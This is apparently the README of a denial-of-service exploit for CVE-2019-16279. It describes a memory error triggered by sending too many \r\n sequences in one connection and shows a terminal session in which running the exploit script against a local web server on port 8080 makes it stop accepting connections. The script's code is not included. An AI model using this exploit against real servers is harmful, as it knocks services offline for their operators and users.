 # CVE-2019-16279
CVE-2019-16279 dos
This bug exploit a memory error when sending too many \r\n in a single connexion.

Example
```
$curl http://127.0.0.1:8080
HELLO!
$./CVE-2019-16279.sh 127.0.0.1 8080
$curl http://127.0.0.1:8080
curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused
```
